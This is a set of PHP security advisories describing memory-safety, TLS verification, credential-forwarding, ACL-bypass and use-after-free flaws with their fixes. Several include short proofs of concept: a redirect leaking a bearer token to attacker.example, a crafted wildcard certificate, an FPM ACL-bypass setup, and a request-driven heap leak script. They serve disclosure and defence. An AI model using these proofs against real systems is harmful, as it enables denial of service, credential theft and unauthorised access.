Any PHP application exposing a `SoapServer` endpoint can be crashed by a single unauthenticated HTTP request. Under PHP-FPM the worker handling the request dies, and a stream of such requests exhausts the worker pool and takes the endpoint offline. This is a denial of service; the stack exhaustion does not give control over the crash.


## GHSA-fpwc-w8rq-cr92 — Cross-origin credential leak in HTTP stream wrapper redirects
- CVE: CVE-2026-91766 | Severity: medium | CVSS: 5.9 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N` | CWE: CWE-200, CWE-522
- Published: 2026-09-24T10:06:39Z | URL: https://github.com/php/php-src/security/advisories/GHSA-fpwc-w8rq-cr92
- Affected php/ext-standard: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-standard: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-standard: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-standard: vulnerable <8.5.11 patched 8.5.11
- Credits: q2a3z, iliaal, alexandre-daubois

### Summary

When the `http://` stream wrapper follows a redirect it forwards the user-supplied `Authorization`, `Cookie` and `Proxy-Authorization` headers unchanged, even when the redirect target is a different host, a different port, or a downgrade from HTTPS to HTTP. A server that can steer a redirect therefore receives credentials that were only meant for the original origin. This is the same class of issue that libcurl fixed in 7.58.0 (CVE-2018-1000007).

### Details

Headers supplied through `stream_context_create()` are carried into the redirected request together with the rest of the context. Before the redirect is issued, the wrapper strips only `Content-Length` and `Content-Type`, and only when the method changes:

https://github.com/php/php-src/blob/php-8.5.10/ext/standard/http_fopen_wrapper.c#L703-L704

The flags handed to the recursive call carry no notion of the origin the credentials belong to:

https://github.com/php/php-src/blob/php-8.5.10/ext/standard/http_fopen_wrapper.c#L1133

The fix records the effective origin of the current request, being scheme, host and port with the default port filled in, and compares it with the parsed redirect target. When they differ, a new `HTTP_WRAPPER_STRIP_AUTH` flag is set and the three credential headers are removed from the user header bag before the next request is built. The flag is sticky, so credentials stay withheld for any further hops after a cross-origin one, matching libcurl's behaviour with `CURLOPT_UNRESTRICTED_AUTH` disabled.

Removing the last header from the bag also required `strip_header()` to drop the line break preceding it. Without that, the CRLF appended after the bag ends the header block early and the body of a body-preserving 307 or 308 redirect is corrupted. The same rewrite makes `strip_header()` scan line by line, so a repeated header, a folded continuation line, or the header name appearing inside another header's value can no longer leave the real header in place.

### PoC

A request to `https://example.com/api` carrying `Authorization: Bearer <token>` that is answered with `302 Found` to `https://attacker.example/` results in the attacker's server receiving the `Authorization` header:

```php
<?php
$ctx = stream_context_create(['http' => [
    'header' => "Authorization: Bearer SECRET\r\nCookie: sid=abc",
    'follow_location' => 1,
]]);
file_get_contents('https://example.com/api', false, $ctx);
```

The regression test `ext/standard/tests/http/ghsa-fpwc-w8rq-cr92.phpt` runs two local servers on different ports and asserts that credentials are dropped on the cross-origin hop and on every hop after it, while being preserved when every hop stays on the same origin.

### Impact

Any application that uses `file_get_contents()`, `fopen()` or another `http://` stream with credential headers and leaves `follow_location` at its default is affected. An attacker who controls a redirect target, or a legitimate service that redirects to a third party, receives the bearer token, session cookie or proxy credentials of the caller. A redirect from HTTPS to HTTP additionally exposes them in cleartext on the network.


## GHSA-r6x9-5r99-36j7 — Various packet overreads in mysqlnd_writeprotocol.c
- CVE: CVE-2025-1218 | Severity: low | CVSS: 3.1 `CVSS:3.1/AV:A/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N` | CWE: 
- Published: 2026-09-24T10:06:44Z | URL: https://github.com/php/php-src/security/advisories/GHSA-r6x9-5r99-36j7
- Affected php/ext-mysqlnd: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-mysqlnd: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-mysqlnd: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-mysqlnd: vulnerable <8.5.11 patched 8.5.11
- Credits: bao00065, cxxz16, TristanInSec, HO-9, OSTIF-Derek, ndossche

### Summary

The mysqlnd wire protocol parser reads fields out of server packets before checking that the packet still holds enough bytes for them. A malicious or compromised MySQL server can send a truncated packet and make the client read past the end of the packet buffer, which is undefined behaviour and can crash the process.

### Details

`BAIL_IF_NO_MORE_DATA` only guarantees that a single byte remains, but several call sites then read two or more bytes before re-checking. For example, the 2-byte read here happens before the over-read is detected:

https://github.com/php/php-src/blob/8b682743196e765debb5056e56a97a67304f5e62/ext/mysqlnd/mysqlnd_wireprotocol.c#L871-L877

The same pattern occurs in the greeting, OK, EOF, auth-switch, cached-sha2, change-user, result-set header, prepared-statement response and row packet handlers. In addition, `php_mysqlnd_net_field_length()` and `php_mysqlnd_net_field_length_ll()` decode a length-encoded integer whose first byte selects a 3, 4 or 9 byte form, and read that many bytes without confirming they are present, so they can read 1 to 9 bytes out of bounds.

The fix replaces the single-byte guard with `BAIL_IF_NOT_ENOUGH_DATA_EX(n)`, which checks the exact number of bytes each read needs, and gives both field-length helpers a `remaining_size` argument so they return `MYSQLND_INVALID_NET_FIELD_LENGTH` instead of reading beyond the packet.

### PoC

The regression tests added with the fix drive a fake MySQL server that emits truncated packets for each affected handler, for example `ext/mysqli/tests/ghsa-r6x9-5r99-36j7-greet-packet.phpt` and `ext/mysqli/tests/ghsa-r6x9-5r99-36j7-ok-packet-affected-rows.phpt`. Running them against an unpatched build under AddressSanitizer reports the out-of-bounds reads.

### Impact

Applications connecting to an untrusted or compromised MySQL server can be crashed, giving a denial of service. The bytes read past the buffer influence parsed field values but are not returned to the server, and the reads stay within the process heap. Applications that only connect to trusted database servers are not exposed.


## GHSA-xr7j-rvgx-xq5p — Heap-buffer-overflow in php_openssl_matches_wildcard_name on crafted server cert wildcard CN
- CVE: CVE-2026-91767 | Severity: medium | CVSS: 6.5 `CVSS:3.1/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | CWE: CWE-122
- Published: 2026-09-24T10:06:47Z | URL: https://github.com/php/php-src/security/advisories/GHSA-xr7j-rvgx-xq5p
- Affected php/ext-openssl: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-openssl: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-openssl: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-openssl: vulnerable <8.5.11 patched 8.5.11
- Credits: flex0geek

### Summary

`php_openssl_matches_wildcard_name()` in `ext/openssl/xp_ssl.c` underflows the length argument passed to `memchr()` when a TLS server certificate presents a wildcard name whose literal characters are together longer than the hostname being verified. A malicious server presenting such a certificate makes the PHP client read up to `SIZE_MAX` bytes past the end of a heap allocation. The path is reachable from any default client stream, because `verify_peer_name` is enabled by default.

### Details

The guard before the `memchr()` call only accounts for the suffix length:

https://github.com/php/php-src/blob/php-8.5.10/ext/openssl/xp_ssl.c#L435-L441

The third argument is `subject_len - suffix_len - prefix_len`. `subject_len` and `suffix_len` are `size_t` while `prefix_len` is `ptrdiff_t`, so the usual arithmetic conversions promote the whole expression to `size_t`. With a certificate name of `aaa*aa` verified against `aaaa`, the prefix is 3 and the suffix is 2 against a 4-byte subject, so the length computes as `(size_t)(4 - 2 - 3)` and wraps to `SIZE_MAX`. `memchr()` then scans from `subjectname + prefix_len` until it finds a `.` or hits unmapped memory.

The fix makes `prefix_len` a `size_t` and changes the guard to `suffix_len + prefix_len <= subject_len`, so the subtraction can no longer wrap.

### PoC

Create a CA and a server certificate whose CN is a wildcard pattern longer than the hostname:

```sh
mkdir -p /tmp/tls-poc && cd /tmp/tls-poc
openssl req -x509 -newkey rsa:2048 -keyout ca.key -out ca.crt -days 30 -nodes -subj "/CN=poc-ca"
openssl req -newkey rsa:2048 -keyout server.key -out server.csr -nodes -subj "/CN=aaa*aa"
openssl x509 -req -in server.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out server.crt -days 30
```

Serve it from a local TLS listener, then run the client with a shorter `peer_name`:

```php
<?php
$ctx = stream_context_create([
    'ssl' => [
        'verify_peer'      => true,
        'verify_peer_name' => true,
        'cafile'           => '/tmp/tls-poc/ca.crt',
        'peer_name'        => 'aaaa',
    ],
    'http' => ['method' => 'GET', 'timeout' => 5],
]);
$body = @file_get_contents('https://127.0.0.1:18443/', false, $ctx);
var_dump(error_get_last());
```

```sh
USE_ZEND_ALLOC=0 ASAN_OPTIONS=detect_leaks=0:halt_on_error=0 ./sapi/cli/php repro.php
```

```
==3801043==ERROR: AddressSanitizer: heap-buffer-overflow
READ of size 6559 at 0x50300003eac0 thread T0
0x50300003eac0 is located 0 bytes after 32-byte region [0x50300003eaa0,0x50300003eac0)
    #1 php_openssl_matches_wildcard_name ext/openssl/xp_ssl.c:438
    #2 php_openssl_matches_common_name ext/openssl/xp_ssl.c:542
    #3 php_openssl_apply_peer_verification_policy ext/openssl/xp_ssl.c:635
    #4 php_openssl_enable_crypto ext/openssl/xp_ssl.c:1894
```

`USE_ZEND_ALLOC=0` is needed so that AddressSanitizer sees the boundary of the heap-allocated peer name; with the Zend allocator the read still happens but stays inside a pre-allocated chunk. In a production build without a sanitizer the scan continues through the libc heap until it finds a `.` or reaches an unmapped page and the process crashes.

### Impact

A server that a PHP client connects to over TLS can cause an out-of-bounds read of unbounded length during hostname verification, crashing the process and producing a denial of service. The scan stops at the first `.` byte it encounters and its result only feeds the accept or reject decision, so no heap content is returned to the attacker.

It applies to any client stream using the default `verify_peer_name`, including `file_get_contents()`, `fopen()` and `stream_socket_client()` on `https://` and `tls://`. The attacker must be able to present the crafted certificate, either by controlling the server or by being trusted through the CA in use.


## GHSA-vvx9-73fr-5jjx — TLS Hostname Verification Falls Back to CN After SAN Mismatch
- CVE: CVE-2026-91769 | Severity: medium | CVSS: 4.3 `CVSS:3.1/AV:A/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` | CWE: 
- Published: 2026-09-24T10:06:51Z | URL: https://github.com/php/php-src/security/advisories/GHSA-vvx9-73fr-5jjx
- Affected php/ext-openssl: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-openssl: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-openssl: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-openssl: vulnerable <8.5.11 patched 8.5.11
- Credits: christos-cantina-security, DavidKorczynski, benzdeus

### Summary

PHP's OpenSSL stream peer verification checks the certificate's subjectAltName entries first and, whenever no entry matches, falls back to the Common Name. RFC 6125 requires the CN to be ignored once the certificate presents any service identity, so a certificate carrying a non-matching DNS SAN was still accepted when its CN matched the requested `peer_name`. A certificate trusted by the client for one name can therefore be used to impersonate another.

### Details

`php_openssl_apply_peer_verification_policy()` tries the SAN list and then unconditionally falls back to the CN:

https://github.com/php/php-src/blob/php-8.5.10/ext/openssl/xp_ssl.c#L635-L641

In the tested build a certificate with `CN=victim.test` and `SAN=DNS:attacker.test` was accepted for `peer_name=victim.test`. A control certificate with `CN=other.test` and the same SAN was rejected, confirming that acceptance came from the CN and that a SAN mismatch did not suppress the fallback.

The fix makes `php_openssl_matches_san_list()` report whether the certificate presented a service identity, meaning a DNS SAN, a URI SAN, or an SRV-ID `otherName` (OID 1.3.6.1.5.5.7.8.7). When one is present and none matched, verification now fails with `Peer certificate subjectAltName did not match expected name` instead of consulting the CN. Certificates with no service identity at all keep the CN fallback for backwards compatibility.

### PoC

Certificate for the accepted case:

```ini
[req]
distinguished_name = dn
prompt = no
x509_extensions = v3_req

[dn]
CN = victim.test

[v3_req]
subjectAltName = @alt_names
extendedKeyUsage = serverAuth

[alt_names]
DNS.1 = attacker.test
```

The rejected control uses the same file with `CN = other.test`.

```php
<?php
$ctx = stream_context_create([
    'ssl' => [
        'verify_peer' => true,
        'verify_peer_name' => true,
        'allow_self_signed' => false,
        'cafile' => $argv[2],
        'peer_name' => $argv[3] ?? 'victim.test',
    ],
    'http' => ['ignore_errors' => true, 'timeout' => 5],
]);

$data = @file_get_contents($argv[1], false, $ctx);
echo $data === false ? "FAIL\n" : "OK\n";
```

Steps:

1. Create a local CA certificate.
2. Issue one server certificate with `CN=victim.test` and `SAN=DNS:attacker.test`.
3. Issue a control certificate with `CN=other.test` and the same SAN.
4. Serve each certificate in turn from a local TLS server.
5. Run the client with `peer_name=victim.test` and the CA certificate.

The first certificate prints `OK` (accepted) and the control prints `FAIL`.

### Impact

A certificate that a client trusts for one hostname can be used to impersonate a different hostname, as long as the attacker's certificate carries the target name in its Common Name. This matters where certificates come from a private PKI, an internal CA, or any environment where an attacker can obtain a certificate whose CN it does not control the SAN for. It affects every client stream that relies on the default `verify_peer_name`, including `file_get_contents()`, `fopen()` and `stream_socket_client()` over `https://` and `tls://`.


## GHSA-62xp-839h-2637 — IPv6 ACL bypass in FastCGI listen.allowed_clients due to partial address comparison (memcmp 12 bytes)
- CVE: CVE-2026-91768 | Severity: medium | CVSS: 6.5 `CVSS:3.1/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | CWE: 
- Published: 2026-09-24T10:06:55Z | URL: https://github.com/php/php-src/security/advisories/GHSA-62xp-839h-2637
- Affected php/PHP-FPM: vulnerable <8.2.34 patched 8.2.34
- Affected php/PHP-FPM: vulnerable <8.3.35 patched 8.3.35
- Affected php/PHP-FPM: vulnerable <8.4.26 patched 8.4.26
- Affected php/PHP-FPM: vulnerable <8.5.11 patched 8.5.11
- Credits: iluuu1994, alexandre-daubois, l8BL, OSTIF-Derek, iliaal

### Summary

The IPv6 branch of the FastCGI client access check compares only the first 12 bytes of a 16-byte IPv6 address, so `listen.allowed_clients` matches on a /96 prefix instead of the exact address. An attacker who can source an address sharing the first 96 bits with an allowed one passes the check and reaches the FastCGI endpoint.

### Details

`fcgi_is_allowed()` in `main/fastcgi.c` compares IPv6 client addresses with a hard-coded length of 12:

https://github.com/php/php-src/blob/php-8.5.10/main/fastcgi.c#L1334

An exact IPv6 comparison must cover all 16 bytes of `struct in6_addr`. The IPv4 branch above it compares its full 4 bytes correctly, and the `IN6_IS_ADDR_V4MAPPED` branch legitimately uses a 12-byte offset to reach the embedded IPv4 address, but that offset is not a valid length for a plain IPv6 comparison. Allowed addresses are parsed as full addresses with `inet_pton(AF_INET6, ...)`, so the truncated comparison silently widens every configured entry to a /96 network.

The fix compares `sizeof(client_sa.sa_inet6.sin6_addr)` bytes.

### PoC

Tested against a real `php-fpm` (fpm-fcgi), not a mock.

1. Configure a pool:

```ini
listen = [::1]:19091
listen.allowed_clients = ::2
```

2. Run php-fpm and send a FastCGI request from `::1` to `[::1]:19091` for a test script.

3. The request is accepted and the script executes, even though `::1` is not in `listen.allowed_clients`. Both addresses share the first 96 bits.

4. Control test: set `listen.allowed_clients = 2001:db8::2` and send the same request from `::1`. The connection is denied as expected, because the first 96 bits differ.

### Impact

This is an access control bypass in deployments that use FastCGI over IPv6 TCP and rely on `listen.allowed_clients` as a security boundary. An attacker with network reachability who can source an address within the same /96 as an allowed client bypasses the ACL and reaches the FastCGI endpoint, which in many deployments means executing PHP scripts in the FPM worker context.

Deployments using Unix sockets, IPv4 only, or an external firewall as the actual boundary are not affected.

### Credit

This issue was originally reported in GHSA-r37j-mv37-rjpc. That advisory could not be used because the reporting account was deleted.


## GHSA-ch8v-r6jh-4vvr — ext/filter: encode 0xFF in FILTER_SANITIZE_ENCODED
- CVE: None | Severity: low | CVSS: 3.7 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N` | CWE: 
- Published: 2026-09-24T10:07:15Z | URL: https://github.com/php/php-src/security/advisories/GHSA-ch8v-r6jh-4vvr
- Affected other/ext-filter: vulnerable <8.2.34 patched 8.2.34
- Affected other/ext-filter: vulnerable <8.3.35 patched 8.3.35
- Affected other/ext-filter: vulnerable <8.4.25 patched 8.4.25
- Affected other/ext-filter: vulnerable <8.5.10 patched 8.5.10
- Credits: fereidani, iliaal

### Summary

`php_filter_encode_url()` builds a 256-entry lookup table that decides which bytes `FILTER_SANITIZE_ENCODED` percent-encodes, but initialises only the first 255 entries. Entry 255 is read uninitialised, so whether the byte `0xFF` is encoded or passed through depends on whatever happened to be on the stack.

### Details

The table is filled with `memset(tmp, 1, sizeof(tmp) - 1)`, which leaves `tmp[255]` untouched:

https://github.com/php/php-src/blob/php-8.5.9/ext/filter/sanitizing_filters.c#L73

The filter then consults `tmp[*s]` for every input byte, so for `0xFF` the decision comes from uninitialised stack memory. Every other byte is handled deterministically.

The fix changes the `memset()` length to `sizeof(tmp)` so the whole table is initialised.

### PoC

```php
<?php
$out = filter_var("\xff\xfeabc", FILTER_SANITIZE_ENCODED);
echo "in : ", bin2hex("\xff\xfeabc"), "\n";
echo "out: ", bin2hex($out), "\n";
```

```
in : fffe616263
out: ff254645616263
```

`0xFE` is percent-encoded as `%FE` while `0xFF` is passed through raw, showing that `tmp[255]` was read uninitialised.

### Impact

The impact is low. There is no crash and no memory corruption; the only effect is that the `0xFF` byte is sanitised inconsistently, depending on uninitialised stack contents. A downstream consumer that relies on `FILTER_SANITIZE_ENCODED` producing fully percent-encoded output could in principle be affected as part of a longer chain, but the filter provides no such guarantee on its own.

This issue was fixed publicly in 8.4.25 and 8.5.10 before it was recognised as security relevant, and is backported here to the branches that receive security fixes only.


## GHSA-88hq-2827-7pg6 — OOB read / info leak in convert.* stream filters when line-break-chars contains NUL
- CVE: CVE-2026-92842 | Severity: medium | CVSS: 5.9 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N` | CWE: CWE-122, CWE-125
- Published: 2026-09-24T10:07:21Z | URL: https://github.com/php/php-src/security/advisories/GHSA-88hq-2827-7pg6
- Affected php/ext-standard: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-standard: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-standard: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-standard: vulnerable <8.5.11 patched 8.5.11
- Credits: geeknik

### Summary

The `convert.base64-encode`, `convert.quoted-printable-encode` and `convert.quoted-printable-decode` stream filters accept a `line-break-chars` option whose length is tracked separately from the string itself. The filter constructors duplicate the value with `pestrdup()`, which stops at the first NUL byte, while keeping the original length. When the filter later emits a line break it copies the recorded length out of the truncated allocation, reading past its end and placing adjacent heap bytes into the filter output.

### Details

`php_conv_base64_encode_ctor()` duplicates the option with `pestrdup()` but stores the untruncated length:

https://github.com/php/php-src/blob/php-8.5.10/ext/standard/filters.c#L237-L238

`php_conv_qprint_encode_ctor()` and `php_conv_qprint_decode_ctor()` repeat the same pattern at lines 838 and 1051. The over-read happens when the encoder inserts a line break and copies `lbchars_len` bytes from that allocation:

https://github.com/php/php-src/blob/php-8.5.10/ext/standard/filters.c#L406

With `line-break-chars` set to `"\0X"` the duplicate is a one-byte allocation holding only the NUL terminator, while `lbchars_len` is still 2, so one byte past the allocation is copied into the output. Extending the option after the NUL increases the number of bytes read out of bounds.

The fix replaces `pestrdup()` with `pestrndup(lbchars, lbchars_len, persistent)` in all three constructors, so the allocation always matches the recorded length.

### PoC

```sh
USE_ZEND_ALLOC=0 ASAN_OPTIONS=detect_leaks=0 ./sapi/cli/php -n -r '
$opts = ["line-length" => 4, "line-break-chars" => "\0X"];
$fp = fopen("php://temp", "r+");
fwrite($fp, str_repeat("A", 6));
rewind($fp);
stream_filter_append($fp, "convert.base64-encode", STREAM_FILTER_READ, $opts);
echo bin2hex(stream_get_contents($fp)), "\n";
'
```

The line break in the output should be the two bytes `0058`. Instead the second byte comes from adjacent memory, and AddressSanitizer reports:

```
==1271431==ERROR: AddressSanitizer: heap-buffer-overflow
READ of size 2 at 0x7bb9d15e2731 thread T0
0x7bb9d15e2731 is located 0 bytes after 1-byte region [0x7bb9d15e2730,0x7bb9d15e2731)
    #1 php_conv_base64_encode_convert ext/standard/filters.c:406
    #2 strfilter_convert_append_bucket ext/standard/filters.c
    #3 strfilter_convert_filter ext/standard/filters.c:1513
```

The same leak is reachable over HTTP wherever an application forwards request data into the filter options:

```php
<?php
$opts = [
    "line-length" => 4,
    "line-break-chars" => base64_decode($_GET["lb64"]), // e.g. "\0X"
];
$fp = fopen("php://temp", "r+");
fwrite($fp, str_repeat("A", 6));
rewind($fp);
stream_filter_append($fp, "convert.base64-encode", STREAM_FILTER_READ, $opts);
echo bin2hex(stream_get_contents($fp));
```

### Impact

Heap memory adjacent to the `line-break-chars` allocation is copied into the filter output, so an application that returns the encoded result discloses those bytes to the requester. The attacker can enlarge the leak by lengthening the option value after the NUL byte. A crash is possible on some allocators and builds, but the practical risk is the information leak.

Exploitation requires the application to pass attacker-controlled bytes as `line-break-chars` and for those bytes to contain an embedded NUL, which is rare in practice, so the majority of applications are not affected.


## GHSA-7875-c8px-7q5f — Out-of-bounds read in the HTTP stream wrapper when following a redirect with an empty Location header
- CVE: CVE-2026-93682 | Severity: medium | CVSS: 5.3 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` | CWE: CWE-125
- Published: 2026-09-24T10:07:25Z | URL: https://github.com/php/php-src/security/advisories/GHSA-7875-c8px-7q5f
- Affected php/ext-standard: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-standard: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-standard: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-standard: vulnerable <8.5.11 patched 8.5.11
- Credits: iliaal, jordikroon, devnexen

### Summary

When the HTTP stream wrapper follows a redirect and the response carries a `Location` header with an empty value, the redirect code reads one byte past the end of the heap buffer holding the location. The value of that out-of-bounds byte decides which redirect target is built, so a malicious server controls whether the client is sent to the host root or to the current directory.

### Details

Since the fix for GHSA-52jp-hrpf-2jff (CVE-2025-1861), `php_stream_http_response_headers_parse()` stores the `Location` value in a heap buffer of exactly `location_len + 1` bytes:

https://github.com/php/php-src/blob/a66f30d78e10773048720b4b5f279136fdd0a433/ext/standard/http_fopen_wrapper.c#L295-L301

For an empty header value that is a single byte holding only the NUL terminator. The redirect handling in `php_stream_url_wrap_http_ex()` treats any location that does not start with `/` as a relative path and dereferences the second byte to decide whether to join it with the directory of the current request path:

https://github.com/php/php-src/blob/a66f30d78e10773048720b4b5f279136fdd0a433/ext/standard/http_fopen_wrapper.c#L1055-L1063

`*(header_info.location+1)` is one byte after the allocation.

Before CVE-2025-1861 was fixed, the location lived in a fixed-size `char location[HTTP_HEADER_BLOCK_SIZE]` stack buffer and the same read stayed in bounds. The bug therefore exists only in 8.1.32+, 8.2.28+, 8.3.18+, 8.4.5+ and all 8.5 releases.

The fix replaces `strlen(header_info.location)` with `header_info.location_len` and guards the second-byte read with the length, so an empty `Location` deterministically redirects to the host root. It was submitted and merged publicly, outside the security process, in https://github.com/php/php-src/pull/23467. A follow-up in https://github.com/php/php-src/pull/23521 corrected the guard from `location_len > 0` to `location_len > 1`, restoring the long-standing resolution of a single-character relative `Location`.

### PoC

A server answering `HTTP/1.1 302 Found\r\nLocation:\r\nContent-Length: 0\r\n\r\n` to this client:

```php
<?php
$ctx = stream_context_create(['http' => ['follow_location' => 1]]);
file_get_contents("http://host/a/b", false, $ctx);
```

The next request goes to `/` when the stray byte happens to be NUL and to `/a//` otherwise. Under Valgrind with `USE_ZEND_ALLOC=0`:

```
Invalid read of size 1
   at php_stream_url_wrap_http_ex (http_fopen_wrapper.c:1044)
   by php_stream_url_wrap_http (http_fopen_wrapper.c:1186)
   by _php_stream_open_wrapper_ex (streams.c:2206)
   by zif_file_get_contents (file.c:426)
 Address is 0 bytes after a block of size 1 alloc'd
   at malloc
   by _emalloc
   by php_stream_http_response_headers_parse (http_fopen_wrapper.c:268)
```

The regression tests are `ext/standard/tests/http/http_empty_location_redirect.phpt` and `http_single_char_location_redirect.phpt`.

### Impact

An attacker who controls a server that a PHP application fetches from, or who can redirect such a request there, triggers a one-byte heap over-read. The byte is never returned to the attacker; it only selects between two redirect targets, so at most one bit, whether the byte is zero, is observable through the request path the server sees. Under the Zend memory manager the one-byte allocation sits in an 8-byte bin, so the read does not crash the process. The practical effect is a non-deterministic redirect target and undefined behaviour reported by ASan and Valgrind.


## GHSA-6wmf-4rv5-p3rp — RCE via stale global state
- CVE: CVE-2026-109619 | Severity: critical | CVSS: None `None` | CWE: CWE-416, CWE-755, CWE-824, CWE-1325, CWE-1419
- Published: 2026-10-21T13:34:13Z | URL: https://github.com/php/php-src/security/advisories/GHSA-6wmf-4rv5-p3rp
- Affected php/php-src: vulnerable < 8.2.35 patched 8.2.35
- Affected php/php-src: vulnerable < 8.3.36 patched 8.3.36
- Affected php/php-src: vulnerable < 8.4.27 patched 8.4.27
- Affected php/php-src: vulnerable < 8.5.12 patched 8.5.12
- Credits: sagitzadik-wiz, tomash-areion, lcfr-hax, amyb-oai, arnaud-lb, iluuu1994, bukka, ndossche

## Summary

PHP contains various global state, such as error, session, object and extension state that is retained by a worker but points to memory owned by one request. That state must be reset before the request memory is released. Some input, configuration, session and error handling operations run before normal initialization of the next request. They inadvertently access stale state not reset by the previous request before initialization has a chance to replace it, causing a use after free. A strategically crafted heap layout can produce full remote code execution (RCE).

State can survive for more than one reason. A fatal error, including one caused by memory exhaustion, can abandon an operation before it performs its matching reset. A warning or other nonfatal diagnostic can also repopulate error state after that state was already cleared during shutdown. The request heap is then freed while the worker global field still refers to it. A later operation that runs before normal request initialization can consume the stale value.

Successful exploitation of this vulnerability requires both a producer and a consumer. The producer is a PHP operation that stores state owned by one request in a location PHP can access later in a subsequent request. The consumer is a subsequent PHP operation that reads, frees, branches or otherwise acts on the stale state previously stored by the producer.

A concrete vulnerability would arise under the following conditions:

1. A reachable PHP operation stores request-owned state in a globally accessible location, acting as the producer.
2. The state is not reset, or another operation repopulates it after its normal reset.
3. PHP releases the request memory while the persistent worker retains the referring global state.
4. The same worker handles another request.
5. A PHP operation reads, frees, branches or otherwise acts on the stale state before normal request initialization resets it, acting as the consumer.

The demonstrated producing and consuming operations occur in different HTTP requests handled by the same worker. The exact affected versions, configuration and mitigations depend on the internal state affected by the producing operation.

## Vulnerability

### Producers

A producing operation becomes dangerous when its request-owned state remains published after the request heap is freed. A fatal error can cause this by abandoning the operation before it resets the state. Fatal interruptions include parse and compile failures, uncaught errors, failure of `require`, and `Maximum execution time exceeded`.

OOM can provide the same interruption when an affected error, exception, object or extension state was already published.

Even a nonfatal diagnostic from extension or server cleanup during a later shutdown stage can repopulate new request-owned error information to the global state.

### Consumers

There are two confirmed consumers before normal initialization.

#### INI diagnostics before request initialization

A warning, notice or deprecation during initialization can consume stale error state. It does not need to be fatal, displayed or logged. Such a warning may be raised when applying invalid or deprecated INI settings before ordinary executor initialization. Examples include:

- Deterministic deprecations such as `auto_detect_line_endings=1`, a `filter.default` value other than the default, PHP 8.3+ legacy `assert.*` settings, PHP 8.4+ legacy session settings, and PHP 8.5 `report_memleaks=0` or nonzero `intl.error_level`.
- Explicitly configured `mbstring.http_input`, `mbstring.http_output`, `mbstring.internal_encoding`, `iconv.input_encoding`, `iconv.output_encoding` or `iconv.internal_encoding`.
- Invalid or conflicting `zend.assertions`, `memory_limit`, `date.timezone`, DBA, EXIF, mail, OpenSSL, zlib and loaded extension values.
- Malformed or overflowing quantities, including invalid `memory_limit`, body size, input, timeout, stack and extension values on PHP 8.2+.
- Configured log, mail, session or SOAP cache paths rejected under `open_basedir`.

Global state is accessed before PHP decides whether to report, display or log the warning. Changing `error_reporting`, using `@`, or disabling `display_errors` or `log_errors` does not protect against this vulnerability.

##### Reachability

With Apache mod_php, `.htaccess` and Apache `php_value`/`php_flag`/`php_admin_*` directory configuration is applied before `php_request_startup()`. Normal `php.ini` is startup configuration and is not reapplied as a consumer across requests.

FPM is conditionally exposed when nginx, Apache `mod_proxy_fcgi` or another frontend sends `PHP_VALUE`/`PHP_ADMIN_VALUE` parameters that produce a diagnostic before request initialization. FPM pool values are applied when a worker starts, and `.user.ini` is applied after normal initialization. They do not provide the same early consumer. FPM also exits a child after `php_request_startup()` returns failure.

LSAPI can apply special environment INI values early and is a conditional candidate. An equivalent early configuration consumer was not established in the default configuration of FrankenPHP. This does not make this environment immune. It may expose different consumers through application or extension behavior.

#### Session upload progress before normal initialization

Session upload progress can reach session handling before ordinary session initialization. It can therefore consume session or decoder state left by an interrupted request before normal initialization resets it. This consumer is independent of the INI diagnostic path and does not require a diagnostic from configuration.

## Concrete and candidate cases

### PHP 8.5 fatal error backtrace: confirmed

With `fatal_error_backtraces` enabled, fatal error reporting stores backtrace state owned by the request. Resetting of this global state is always missed during shutdown. A diagnostic on a subsequent request reaches the stale value before normal request initialization resets it.

This is the strongest demonstrated case and is the basis of the confirmed mod_php exploitation.

### Session upload progress lifecycle: confirmed

An upload can initialize request-owned session and decoding state before normal module initialization. OOM or another fatal error after that state has been published can prevent its matching reset. PHP then frees the request heap while persistent session or decoder globals still refer to it. A later upload progress operation reaches those globals before ordinary initialization and treats them as valid state.

The demonstrated application-independent trigger is OOM during input processing. Other fatal errors at this stage can cause the same state transition, but generally require additional application, extension or configuration conditions.

With mod_php, both the producing operation and fatal error can occur during multipart startup. FPM terminates a child when this startup fails, so that exact sequence does not survive. The validated FPM path instead publishes state during application execution after successful startup, reaches a fatal error, and then uses session upload progress as the early consumer. It works with a normal dynamic FPM pool, although it depends on a suitable application operation.

Session upload progress is enabled by default, and no application call to `session_start()` is required. It can supply a producer, consumer or both, but exploitation still requires an interruption after state is published and a subsequent request handled by the same worker.

### Other error, exception, object and extension state: conditional

Supported PHP branches contain other request state that may become unsafe after a request boundary. The complete patch resets this wider state because it must not survive into operations that precede normal initialization. Whether it is reachable depends on the application, extensions and the exact point where the state was published.

Fatal errors inside PHP operations that call back into an application deserve particular attention. The callback may introduce a fatal error while the operation still has temporary state. Applicability depends on a route reachable by an attacker, the callbacks registered by that application or extension, and a later consumer before normal request initialization. There is no configuration based mitigation that covers every such operation.

## Mitigation

> [!WARNING]
> Updating to a release containing the complete state reset patch is the only reliable mitigation. **There is no complete generic configuration mitigation as an application, extension or server path may publish stale state or consume it without a predictable log entry.**

